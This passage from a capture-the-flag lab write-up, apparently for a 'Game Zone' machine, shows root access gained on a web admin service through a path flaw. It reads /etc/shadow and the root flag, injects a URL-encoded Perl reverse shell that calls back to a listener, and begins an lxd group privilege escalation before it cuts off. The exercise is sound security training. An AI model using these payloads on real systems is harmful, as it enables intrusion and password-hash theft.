 after looking carefully at the code, we can see that we can run commands from `/file/show.cgi/bin/#`. 

So let's try to view to /etc/shadow file contents by visiting http://localhost:10000/file/show.cgi/etc/shadow,

![image](https://user-images.githubusercontent.com/67465230/186081888-efb48099-cbe8-461a-a3e3-b779f64a046a.png)

and we can see the root user password hash. Now, we can try to crack this hash and using `su root` command on ssh terminal, we can become root user and get the flag.

Next thing we can do is that we can directly access the root.txt file by visiting http://localhost:10000/file/show.cgi/root/root.txt,

![image](https://user-images.githubusercontent.com/67465230/186081924-0eeee295-a600-4f26-a8f4-ce6ed7cb6951.png)

we got the root flag.

## Another Method : Reverse Shell

https://www.notion.so/GAMEZONE-WRITE-UP-2e762633c6234e3b9e1fbb0bcf743fcb

Since we can run commands from `/file/show.cgi/bin/#` path, we have Remote Code Execution and we can run the Perl reverse shell to get a shell. Let's first start the listener using `nc -nvlp 4444` and paste the one-liner perl reverse shell,

```bash
localhost:10000/file/show.cgi/bin/a%20|%20perl%20-e%20'use%20Socket;$i=%2210.9.4.141%22;$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname(%22tcp%22));if(connect(S,sockaddr_in($p,inet_aton($i))))%7Bopen(STDIN,%22%3E&S%22);open(STDOUT,%22%3E&S%22);open(STDERR,%22%3E&S%22);exec(%22/bin/sh%20-i%22);%7D;'
```

![image](https://user-images.githubusercontent.com/67465230/186081956-dc7a5830-3af3-42ac-bbf6-25ba4399353e.png)

and we got system access. 

## Another Method : Abusing lxd

After SSH'ing to machine using agent47 user credential, when issuing `id` command, we can see that user agent47 is member of **lxd** group and we can abuse lxd to gain root accesss. Blog on [Lxd Privilege Escalation](https://www.hackingarticles.in/lxd-privilege-escalation/#:~:text=The%20vulnerability%20exists%20even%20with%20the%20LXD%20snap,user.%20There%20are%20multiple%20methods%20to%20exploit%20this.),

```bash
git clone https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder
./build-alpine
```

This will build up the package for us.

Now that our package is built, we need to start a python server to host this package on remote machine, `python3 -m http.server`. Navigating to /tmp directory and downloading this file using wget command,

